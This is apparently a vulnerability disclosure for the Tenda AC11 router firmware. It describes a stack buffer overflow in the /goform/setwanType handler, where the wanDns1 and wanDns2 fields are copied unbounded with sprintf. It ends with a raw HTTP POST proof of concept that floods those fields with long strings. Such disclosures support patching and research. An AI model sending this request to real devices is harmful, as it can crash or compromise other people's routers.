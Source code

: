 # Tenda Router AC11 Vulnerability
The Vulnerability is in `/goform/setwanType` page which influence the lastest version routerOS(RTOS, This is system different from linux system)[AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html)

## Vulnerability description
In the page `/gofrom/setwanType` have one stack buffer overflow vulnerability.

1. It isn't limit our input when we input `wanDns1` in `v12` and `wanDns2` in `v13`.
2. Then `v12` and `v13` will copy to a stack value `v45` by using `sprintf_1(v45, "%s %s", v12, v13);` .%s couldn't limit copy length ,so wo can make stack buffer overflow in `v45`
![](./1.png)

## poc 

```
POST /goform/setwanType HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wanDns1=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&wanDns2=wanDns2=bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true&wanType=static
```